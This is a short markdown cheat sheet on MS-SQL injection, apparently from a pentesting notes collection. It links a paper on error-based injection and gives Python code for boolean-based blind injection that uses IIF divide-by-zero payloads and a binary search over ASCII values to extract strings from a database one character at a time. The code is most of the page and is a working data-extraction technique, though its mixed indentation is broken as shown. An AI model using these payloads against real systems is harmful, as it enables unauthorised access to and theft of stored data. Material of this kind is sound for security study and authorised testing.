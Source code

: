 # MS-SQL Injection



## Blind SQL Injection

### Error Based Injection

[https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-\(mssql\).pdf](https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-%28mssql%29.pdf)

### Boolean Based Blind

In the case of boolean based blind we can use the [IIF\(\)](https://docs.microsoft.com/en-us/sql/t-sql/functions/logical-functions-iif-transact-sql?view=sql-server-2017) function to extract data.  Say our injection point required an integer placed at a specific point such as:

```text
demo.asp?id=1
```

If we can't inject via stacked queries or other methods we can execute basic queries by utilizing the `IIF` Boolean result which is converted to an integer to guarantee execution.  This assumes a function `exploit` which returns a True or False response:

```python
def binary_search(payload):
	first = 0
	last = 127
	while first <= last:
		i = (first+last)/2
		eq = 'IIF({0}={1},1,1/0)'.format(payload,i)
		gt = 'IIF({0}<{1},1,1/0)'.format(payload,i)
		lt = 'IIF({0}>{1},1,1/0)'.format(payload,i)
		if exploit(eq) == True:
			return i
		elif exploit(gt) == True:
			last = i - 1
		elif exploit(lt) == True:
			first = i +1
		else:
			return 0

def leak_string(query, length=0):
	if length == 0:
		while True:
			payload = 'IIF(LEN({0})>{1},1,1/0)'.format(query, length)
                	if exploit(payload) == False:
                        	break
                	length += 1
	print '[+] Length of {0}'.format(length)
	name = ''
	for i in range(1, length+1):
		print name
		name += chr(binary_search('ASCII(SUBSTRING({0},{1},1))'.format(query,i)))
	return name
```




